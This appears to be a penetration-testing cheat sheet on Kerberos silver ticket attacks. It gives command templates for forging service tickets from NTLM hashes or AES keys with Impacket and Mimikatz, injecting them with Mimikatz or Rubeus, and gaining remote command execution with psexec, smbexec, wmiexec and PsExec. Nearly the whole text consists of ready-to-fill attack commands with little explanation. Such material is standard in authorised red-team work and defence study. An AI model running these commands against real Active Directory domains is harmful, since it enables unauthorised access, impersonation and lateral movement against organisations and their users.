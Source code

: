 # Silver Ticket

## Silver ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```shell
# To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```shell
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

